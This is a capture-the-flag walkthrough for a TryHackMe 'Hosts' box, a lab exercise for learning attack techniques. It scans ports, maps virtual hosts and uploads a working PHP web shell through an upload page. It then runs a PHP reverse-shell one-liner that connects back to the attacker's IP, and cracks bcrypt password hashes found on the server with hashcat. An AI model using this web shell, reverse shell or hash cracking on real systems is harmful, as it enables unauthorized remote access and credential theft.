





# Hosts - User
Difficulty: Medium

https://tryhackme.com/jr/goosectfhosts

Since this was a tryhackme challenge, had to set up the tryhackme vpn first.
Running an nmap on the host machine reveals two ports:

```sh
┌──(pg㉿pg)-[~]
└─$ nmap -sVV 10.10.243.155
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-11 20:13 IST
Nmap scan report for sites.hosts.wcss (10.10.243.155)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
80/tcp open  http    nginx 1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```
Trying to ssh didn't return anything.
Visited 10.10.243.155 -> Redirected to hosts.wcss
Added `hosts.wcss 10.10.243.155` to the `/etc/hosts`
Running `curl hosts.wcss` gave:
```
┌──(pg㉿pg)-[~]
└─$ curl hosts.wcss
<!DOCTYPE html>
<html lang="en">
  <head>
                <meta charset="UTF-8">
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/css/bootstrap.min.css"
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
                <title>Hosts</title>
                <style>
                        .bg {
                                background-image: url('https://cdn.pixabay.com/photo/2016/11/29/05/45/astronomy-1867616_960_720.jpg');
                                background-size: cover;
                                background-repeat: no-repeat;
                                background-attachment: fixed;
                                background-position: center;
                                height: 100vh;
                                color: white;
                                text-align: center;
                                display: flex;
                                justify-content: center;
                                align-items: center;
                                font: 300 18px/18px Roboto, sans-serif;
                        }
                        .container {
                                background-color: rgba(0, 0, 0, 0.5);
                                padding: 20px;
                                border-radius: 10px;
                        }
                </style>
  </head>
        <body class="bg">
<div class="container">
<h1>Welcome to Hosts</h1>
<p>We provide the hosting. You provide the content.</p>
<p>Get started by creating an account.</p>
<a href="http://panel.hosts.wcss">Access the panel</a>
</div>
</body>
</html>
```
Added panel.hosts.wcss to the hosts now.
```
┌──(pg㉿pg)-[~]
└─$ curl panel.hosts.wcss
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/css/bootstrap.min.css">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Hosts - Home</title>
    <style>
      body.bg {
        background-color: #343a40;
        display: flex;
        justify-content: center;
        align-items: center;
        height: 100vh;
        color: #ffffff;
      }
      .container {
        max-width: 600px;
        padding: 20px;
        background-color: #495057;
        box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        border-radius: 8px;
        text-align: center;
      }
      .btn-primary {
        width: 100%;
        background-color: #007bff;
        border: none;
        margin-top: 20px;
      }
      svg {
        width: 100px;
        height: 100px;
        margin-bottom: 20px;
      }
    </style>
  </head>
  <body class="bg">
    <div class="container">
      <svg xmlns="http://www.w3.org/2000/svg" fill="currentColor" class="bi bi-cloud-upload" viewBox="0 0 16 16">
        <path fill-rule="evenodd" d="M8 0a5.53 5.53 0 0 0-4.473 2.11A5.53 5.53 0 0 0 0 6.5C0 8.985 1.79 11 4 11h1v1H4a1 1 0 0 0 0 2h8a1 1 0 0 0 0-2h-1v-1h1c2.21 0 4-2.015 4-4.5a5.53 5.53 0 0 0-3.527-4.39A5.53 5.53 0 0 0 8 0zM4.5 7.5a.5.5 0 0 1 .5-.5h2V4.5a.5.5 0 0 1 1 0v2.5h2a.5.5 0 0 1 0 1h-2v2.5a.5.5 0 0 1-1 0V8.5h-2a.5.5 0 0 1-.5-.5z"/>
      </svg>
      <a href="/home" class="btn btn-primary">Access Panel</a>
    </div>
  </body>
</html>
```

Clicking on the Access Panel button reveals the following page:


Clicked on the register button:


Signed up with the creds admin admin
Then logged in with the same creds.


Presented with an upload page:


Final hosts file: 

```
machin_ip sites.hosts.wcss
machin_ip admin.sites.hosts.wcss
machin_ip  panel.hosts.wcss
machin_ip  hosts.wcss
```
After some enumeration, figured out we can upload php also and it will execute it.

Created the following php reverse shell script:

```php
<!DOCTYPE html>
<html>
<head>
  <title>Web Shell</title>
  <style>
    body { background-color: #121212; color: #eee; font-family: monospace; padding: 20px; }
    input, button { padding: 5px; background: #333; color: #eee; border: 1px solid #555; }
    textarea { width: 100%; height: 300px; background: #000; color: #0f0; padding: 10px; border: none; resize: vertical; }
  </style>
</head>
<body>
  <h2>PHP Web Shell</h2>
  <form method="POST">
    <input type="text" name="cmd" placeholder="Enter command" style="width: 80%;">
    <button type="submit">Run</button>
  </form>
  <textarea readonly><?php
    if (isset($_POST['cmd'])) {
      echo htmlspecialchars(shell_exec($_POST['cmd']));
    }
  ?></textarea>
</body>
</html>
```


Started a local nc server: `nc -lvnp 4444`

Executed the following command to get the reverse shell on the /upload/test/php: `php -r '$sock=fsockopen("10.17.57.229",4444);exec("/bin/bash -i <&3 >&3 2>&3");'`

Received the reverse connection on localhost.
```
Ncat: Version 5.59BETA1 ( http://nmap.org/ncat )
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.243.155:48568.
bash: cannot set terminal process group (578): Inappropriate ioctl for device
bash: no job control in this shell
www-data@hosts:~/html/sites/admin$ ls
ls
mal.html
shell.php
test.php
```

After some enumerating, found the following interesting files:
```
cd /home/cpanel
ls -la
total 28
drwxr-xr-x 2 cpanel cpanel 4096 May 11 11:13 .
drwxr-xr-x 4 root   root   4096 Dec 25 21:27 ..
lrwxrwxrwx 1 root   root      9 Dec 25 21:27 .bash_history -> /dev/null
-rw-r--r-- 1 cpanel cpanel  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 cpanel cpanel 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 cpanel cpanel  807 Apr 23  2023 .profile
-rw-r--r-- 1 cpanel cpanel   66 May 11 11:13 users.txt
-rw-r--r-- 1 cpanel cpanel   67 Dec 25 21:54 users.txt.backup
cat users.txt
admin,$2a$10$dchhYXk0ZEmhTrQ8BuwaGueH9T0SBBr6Ck.hcQ7rp4YVZtUduxO3y
cat users.txt.backup
graham,$2a$10$13ywSDSq/rfC2pDfjV3EJ.LCp3N57zlGtIXyWOy3uJ3E16160CQYS
```

These could be the bcrypt hashes of the password of the users.

Running hashcat on them with rockyou:
```
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```



Got the following passwords:  
admin: admin
graham: spiderman1

In the shell then I ran:
```
su graham
```
and entered the password.

And got the access as graham.

Then I got access to the graham's folder:
```
cd home
ls
cpanel
graham
cd graham
ls
user.txt
cat user.txt
GooseCTF{315438XXXXXXXXXX3d0a}
```
